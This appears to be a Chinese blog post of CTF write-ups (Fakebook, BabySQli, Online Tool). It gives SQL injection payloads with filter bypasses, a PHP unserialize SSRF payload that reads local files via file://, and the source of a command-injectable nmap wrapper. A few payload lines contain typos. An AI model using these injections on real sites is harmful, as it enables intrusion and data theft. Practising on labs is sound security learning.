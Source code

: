 ```yaml
---
layout:    post
title:     CTF
subtitle:  学习学习
date:      2021-04-13
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - CTF
---
```


#### [网鼎杯 2018]Fakebook

进入后有两个链接，分别是登录和注册，点进去看看，发现注册总是不符合要求。查看源码也木有发现什么，在主页面查看robots.txt，得到一个``/user.php.bak``文件，打开有信息：

```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

知道blog要求为http[s]格式，构造符合要求的blog，注册成功。

登录后发现创建了一个访问blog页面，url上有``view.php?no=1``猜测存在SQL注入。尝试注入：

```
no=1 order by 3(4, 5)		//得到字段
no=-1 union select 1,2,3,4		//发现被过滤了
no=-1 union/**/select 1,2,3,4		//绕过，这里是空格绕过，绕过的方法有很多，可以注释绕过也可以双空格绕过，tab绕过等
no=-1 union/**/select 1,database(),3,4
no=-1 union/**/select 1,(select group_concat(table_name) from information_schema.tables where table_shema=database()),3,4
no=-1 union/**/select 1,(select group_concat(column_name) from information.schema.columns where table_name='users'),3,4
no=-1 union/**/select 1,(select group_concat(data) from fakebook.users),3,4
```

最后得到一串字符串：

```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:11;s:4:"blog";s:18:"http://www.aaa.com";} 
```

可以看出这是序列化后的字符串，将我们注册时的内容输出了。

这里可以利用SSRF漏洞，来得到我们想要的flag。

这里再回顾之前得到的``/user.php.bak``来构造payload：

```
<?php
class UserInfo
{
	public $name="a";
	public $age=11;
	public $blog="file:///var/html/www/flag.php";
	
	public function_construct($name, $age, $blog) 
	{
		$this->name = $name;
		$this->age = (int)$age;
		$this->blog = $blog;
	}
}

$a = new UserInfo("a", 11, "file:///var/www/html/flag.php");
$a = serialize($a);
echo $a;
?>
```

得到payload：

```
O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:11;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

又因为data在第四个字段，所以我们将其放到第四位，构造最后的payload：

```
no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:11;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

访问源码在blog处访问得到flag。

#### [GXYCTF2019]BabySQli

进入页面发现是一个简单登录框，看源码发现一个``search.php``，查看得到一个被加密的SQL语句(先base32解密后base64解密)，得到：

```
select * from user where username = '$name'
```

那么可以直接开始在username处注入：(我这直接burp抓包尝试)

最开始先尝试了admin，发现账户是admin密码不是。

```
name=1' order by 3#&pw=1	//提示hack，说明被过滤了
name=1' oRder by 3#&pw=1	//大小写绕过
name=1' oRder by 4#&pw=1	//报错，得到字段数为3
name=1' union select 1,2,3#&pw=1	//木有回显，只有提示user错误
name=1' union select 'admin',2,3	//猜测name的位置
name=1' union select 1,'admin',3	//得到name的位置在2处
```

在这里又会有一个联合注入的新知识点：
在联合查询并不存在数据时，联合查询就会构造一个虚拟的数据。

[![cy1D4e.png](https://z3.ax1x.com/2021/04/13/cy1D4e.png)](https://imgtu.com/i/cy1D4e)

我们可以利用这一点来让其虚拟一个我们想要的密码，这里我是看了wp，知道为md5加密，看到有师傅说有提示，没有发现。我们来构造：

```
name=1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#&pw=123
```

这里我们把密码设为了123，这样我们直接用虚拟数据进入，即可得到flag。

#### [BUUCTF 2018]Online Tool

```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```

